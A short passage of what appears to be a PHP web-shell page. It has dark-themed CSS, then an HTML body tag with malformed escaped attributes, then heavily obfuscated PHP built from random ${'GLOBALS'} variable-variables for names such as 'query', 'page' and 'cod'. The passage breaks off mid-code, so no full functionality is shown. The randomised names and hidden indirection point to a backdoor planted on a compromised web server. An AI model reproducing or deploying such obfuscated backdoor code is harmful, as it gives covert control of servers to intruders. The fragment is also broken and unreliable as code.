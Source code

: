 a:link, body_alink
{
	color: #FF9933;
	text-decoration: none;
}
a:visited, body_avisited
{
	color: #FF9933;
	text-decoration: none;
}
a:hover, a:active, body_ahover
{
	color: #FFFFFF;
	text-decoration: none;
}
td, th, p, li,table
{

	background: #2e2b28;
	border:1px solid #524f46;
}

input
{
	border: 1px solid;

	cursor: default;

	overflow: hidden;
	background: #2e2b28;
	color: #ffffff;
}
</style>
</head>
<body bgcolor=black alink="#33CC00" vlink=\"#FF9933\" link="#FF9933\">";if(${$hejvwrlzvigz})echo(${${"GLOBALS"}["ytcwncufygm"]});$cabnldqq="q";${"GLOBALS"}["bfhqlodqci"]="q";${"GLOBALS"}["hfrripeqw"]="page";$zhonohalncvc="qq";${"GLOBALS"}["remcsasob"]="que";$uudoelu="query";$gratlbvcudj="q";${"GLOBALS"}["vgmpmpyqmo"]="i";${"GLOBALS"}["whvclkauo"]="q";${"GLOBALS"}["iahgcggxrfyj"]="query1";$juqovtr="page";${"GLOBALS"}["hqvmqku"]="cod";echo "



